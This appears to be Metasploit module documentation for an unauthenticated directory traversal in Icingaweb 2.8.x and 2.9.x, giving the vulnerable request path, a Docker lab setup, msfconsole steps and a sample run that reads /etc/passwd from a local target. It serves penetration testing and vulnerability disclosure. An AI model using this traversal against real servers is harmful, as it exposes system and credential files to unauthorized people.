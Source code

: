 
## Vulnerable Application

Icingaweb versions from 2.9.0 to 2.9.5 inclusive, and 2.8.0 to 2.8.5 inclusive suffer from an
unauthenticated directory traversal vulnerability. The vulnerability is triggered
through the icinga-php-thirdparty library, which allows unauthenticated users 
to retrieve arbitrary files from the targets filesystem via a GET request to
`/lib/icinga/icinga-php-thirdparty/<absolute path to target file on disk>` as the user
running the Icingaweb server, which will typically be the `www-data` user.

This can then be used to retrieve sensitive configuration information from the target
such as the configuration of various services, which may reveal sensitive login or configuration information,
the `/etc/passwd` file to get a list of valid usernames for password guessing attacks, or other sensitive files 
which may exist as part of additional functionality available on the target server.

This module was tested against Icingaweb 2.9.5 running on Docker.

## Install Icingaweb 2.9.5 on a Ubuntu 22.04 Docker Image

```
sudo apt-get install docker.io -y
sudo docker run -p 8080:8080 icinga/icingaweb2:2.9.5
```

Browse to port 8080 to confirm the site loads. No need to configure.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/icinga_static_library_file_directory_traversal`
4. Do: `set rhosts [ip]`
5. Do: `set file [file]`
6. Do: `run`
7. You should be able to retrieve a file

## Scenarios

### Icingaweb 2.9.5 on Ubuntu 22.04 running on Docker

```
[*] Processing icinga.rb for ERB directives.
resource (icinga.rb)> use scanner/http/icinga_static_library_file_directory_traversal
resource (icinga.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (icinga.rb)> set file /etc/passwd
file => /etc/passwd
resource (icinga.rb)> check
[*] 127.0.0.1:8080 - The service is running, but could not be validated. 127.0.0.1:8080     - Icinga Web 2 found, unable to determine version.
resource (icinga.rb)> run
[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

[+] /etc/passwd saved to /root/.msf4/loot/20230421161654_default_127.0.0.1_icingafile_070863.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (icinga.rb)> loot

Loot
====

host          service  type         name         content     info  path
----          -------  ----         ----         -------     ----  ----
127.000.0.01           icinga file  /etc/passwd  text/plain        /root/.msf4/loot/20230421161654_default_127.0.0.1_icingafile_070863.txt
```
